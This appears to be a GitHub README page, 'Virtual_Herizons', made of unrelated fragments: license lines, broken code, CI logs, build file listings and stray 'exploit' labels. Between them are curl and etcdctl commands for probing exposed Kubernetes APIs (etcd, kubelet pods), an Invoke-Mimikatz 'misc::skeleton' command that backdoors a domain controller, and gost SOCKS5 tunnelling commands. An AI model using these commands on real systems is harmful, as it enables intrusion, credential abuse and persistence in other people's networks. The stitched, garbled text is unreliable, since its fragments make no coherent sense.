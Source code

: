 # Virtual_Herizons

<pre id="output" class="d-inline-block text-left mb-0" style="overflow-y: hidden;">  ____     _ _       _              ____                  _               <br> / ___|___| | |_   _| | __ _ _ __  / ___|  ___ _ ____   _(_) ___ ___  ___ <br>| |   / _ \ | | | | | |/ _` | '__| \___ \ / _ \ '__\ \ / / |/ __/ _ \/ __|<br>| |__|  __/ | | |_| | | (_| | |     ___) |  __/ |   \ V /| | (_|  __/\__ \<br> \____\___|_|_|\__,_|_|\__,_|_|    |____/ \___|_|    \_/ |_|\___\___||___/</pre>

* (c) 2019 kazuya kawaguchi
* (c) 2024 Zaxkeroth
* (c) 2005, 2007 Bob Ippolito. All Rights Reserved.
* (c) The Closure Library Authors.
## SPDX-License-Identifier: MIT
```
import os
import sys
import m= b, tp, r:436 # bloat_code
$vendors-node-modules_-ba0e4d5b3207.js:15
$ls 
$cd
$forced reflow
[DOM] exceptions (in promise)
8:30, crash
2023-03-25T21:14:25.1705153Z ##[section]Starting: Prepare job test
2023-03-25T21:14:25.1707846Z Evaluating strategy
2023-03-25T21:14:25.1712696Z Creating job '__default'
2023-03-25T21:14:25.1715118Z Evaluating timeout
2023-03-25T21:14:25.1715190Z Evaluating cancel timeout
2023-03-25T21:14:25.1715228Z Evaluating continue on error
2023-03-25T21:14:25.1715272Z Evaluating target
2023-03-25T21:14:25.1717082Z ##[section]Finishing: Prepare job test
*弃用*
/_next/static/chunks/pages/%5BversionId%5D/%5BproductId%5D/%5B...restPage%5D-0a388d0202310049.js119B
/_next/static/xR23a7L8uutSe_4ww_xRn/_buildManifest.js76B
/_next/static/xR23a7L8uutSe_4ww_xRn/_ssgManifest.js74B
/_next/static/chunks/polyfills-c67a75d1b6f99dc8.js73B
/_next/static/chunks/856-9ad78b8d852d1279.js67B
/_next/static/chunks/335-c28a1896766e22f6.js67B
/_next/static/chunks/377-db71c9ecf498e436.js67B
/_next/static/chunks/833-c07ccb17b9c4f763.js67B
/_next/static/chunks/584-0d3303dbd89ed456.js67B
/_next/static/chunks/200-76f833ab3eb14f10.js67B
[POST]
[VERIFICATION]
~
```

#### chrome crashing
```
$ _.ksend
this loop # china llc
[VIOLATION]
*这。无尽的。环形*
- Failed to construct clipboard
+ Blocked D  e  V  Tool Request 
[!] JWt API XPLOIT 
[!] JSON WEB token leakage
```
## API addresses that (You) should know 
*(External network visibility)*
### cAdvisor
```powershell
curl -k https://<IP Address>:4194
```
### Insecure API server
```powershell
curl -k https://<IP Address>:8080
```
### Secure API Server
```powershell
curl -k https://<IP Address>:(8|6)443/swaggerapi
curl -k https://<IP Address>:(8|6)443/healthz
curl -k https://<IP Address>:(8|6)443/api/v1
```
### etcd API
```powershell
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```
### Kubelet API
```powershell
curl -k https://<IP address>:10250
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```
### kubelet (Read only)
```powershell
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```
| prompt | -para |
| ------ | ----- |
| specif | -user |
| psswrd | -con  | 
| remote | -host |

~~AWS_SOCIALIST_MEDIUMS_PUPPETEERING~~

### Skeleton Key
```powershell
# Exploitation Command runned as DA:
>Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>
# Access using the password "mimikatz"
[Enter]
$-PSSes
> Server side: gost -L=socks5://:1080
> Client side: gost -L=:8080 -F=socks5://server_ip:1080?notls=true
[tpl, cName: Z4](https://www.theprodigyleague.github.io)
[subdomain](http://www.assetproductions.net)
